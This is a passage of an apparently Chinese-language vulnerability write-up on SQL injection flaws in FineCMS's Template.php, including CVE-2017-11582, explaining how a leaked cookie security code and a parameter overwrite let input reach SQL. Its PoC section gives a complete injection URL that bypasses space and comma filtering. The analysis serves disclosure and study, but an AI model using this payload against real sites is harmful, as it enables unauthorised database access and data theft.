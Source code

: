 这个安全码直接定义在config中，可以在后台被修改，会在cookie中被泄露

当我们第一次访问站点的时候，我们会获得cookie，这个前缀就是安全码

![image.png-79.7kB][8]

获取安全码MD5后进入函数list_tag，跟入 `/finecms/dayrui/libraries/Template.php` 402行。

![image.png-146.4kB][9]

param参数通过空格分割，然后解析分别赋值给system参数字典中，理论上这里是个变量覆盖漏洞。

通过这里，我们可以设置任意一个system变量。

通过构造形似
```
param=action=related
```
这样的请求来进入case，这里我们进入action=related

![image.png-202.3kB][10]

为了进入判断，我们必须传入catid，并且保证参数内存在逗号，这样catid的每一个值就会不经过任何变量过滤进入sql语句，形成注入。

这里有一个小问题就是不能使用空格和逗号，空格可以用换行符替代，逗号需要用一点儿黑科技，不过也不是很麻烦。

## PoC ##

打开网站并获取cookie中的SYS_KEY.

payload:
```
http://finecms.com/index.php?
c=api&m=data2&auth={md5(SYS_KEY)}&param=action=related%20module=news%20tag=1,2%20catid=1,12))%0aand%0a0%0aunion%0aselect%0a*%0afro
m(((((((((((((((((((select(user()))a)join(select(2))b)join(select(3))c)joi
n(select(4))d)join(select(5))e)join(select(6))f)join(select(7))g)join(sele
ct(8))h)join(select(9))i)join(select(10))j)join(select(11))k)join(select(1
2))l)join(select(13))m)join(select(14))n)join(select(15))o)join(select(16)
)p)join(select(17))q)join(select(18))x)%23
```

![image.png-65.2kB][11]

# Template.php num变量 SQL注入漏洞(CVE-2017-11582) #

## 漏洞分析: ##

这个漏洞前面部分的流程和上个漏洞触发方式相同，也是通过安全码，从data2函数进入list_tag函数，通过设置action=tags或者action=related。

`$system['num']` 参数存在limit注入，唯一的问题就是limit注入必须在5.0.0<mysql<5.6.6情况下才成立。

![image.png-56kB][12]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/p6rzdl3hn4qma2xfdnnjcvmf/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k3pahve44l13aaq0l3tv804k/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tdhgnnhca43s7luif2z0qt19/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9uh4ll2w53s9ftnhdfaf5jv4/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dwwtyb3okbfl0ohedg3q1z4h/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pt5zq0ezl29las6zgjmh7r5/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n7dbtbupmw8ukwwenp4lipjj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i8d3nn39drj9to4x24yzed3q/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y5pf6ackfl3e6hgodigz9icb/image.png
  [19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png
